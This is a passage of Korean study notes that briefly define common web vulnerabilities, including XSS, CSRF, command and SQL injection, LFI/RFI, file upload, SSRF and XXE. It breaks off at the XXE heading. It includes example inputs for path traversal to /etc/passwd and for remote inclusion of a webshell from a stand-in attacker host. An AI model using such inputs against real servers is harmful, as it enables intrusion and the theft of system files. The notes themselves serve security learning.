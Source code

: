 


### 3. 취약한 인증 및 권한

---

**3.1. Cross-Site Script**

- 공격자가 <u>웹 사이트에 스크립트를 삽입</u>하여 의도치 않은 행동을 수행하거나 민감정보 탈취가 가능한 보안약점
- XSS의 공격대상은 클라이언트



**3.2. Cross-Site Request Forgery (CSRF)**

- 클라이언트가 자신의 의지와는 무관하게 공격자가 의도한 행위(삽입,삭제,등록 등)를 특정 웹사이트에 요청하게 만드는 공격



**3.3. 프로세스 검증 누락**

- 애플리케이션의 계획된 플로우 통제를 우회하는 것을 허가하는 보안약점.



### 4. 원격 명령실행

---

**4.1. Command Injection**

- `OS` 명렁어를 삽입하고 요청을 보내 웹 서버에서 실행시키는 취약점



**4.2 SQL Injection **

- 변조된 SQL언어를 사용해 DB내 데이터를 열람하거나 삽입&삭제하는 보안약점



**4.3. Local File Inclusion / Remote File Inclusion (LFI / RFI)**

- 공격 대상 서버에 위치한 파일을 포함시켜 읽어오도록 하는 공격

- 파일이 존재하는 위치가 로컬인지 리모트인지에 따라 나뉨.

>**LFI** Ex) example.com/index.jsp?file=../../../../../../etc/passwd
>
>**RFI** Ex) example.com/index.jsp?file=http://evil.example.com/webshell.txt



**4.4. File Upload**

- 서버 사이드 언어로 개발된 프로그램을 업로드하여 실행시킬 수 있는 취약점



**4.5. Server-Side Request Forgery(SSRF)**

- 서버 사이드에서 이루어지는 `Request`를 변조하여 해커가 의도한 서버로 요청이 가게 하거나 요청 내용을 변경할 수 있는 공격
- 사용자의 입력을 받아 서버가 직접 다른 웹 또는 포트에 접근하여 데이터를 가져오는 기능들에서 주로 발생함



**4.6. XXE Injection**
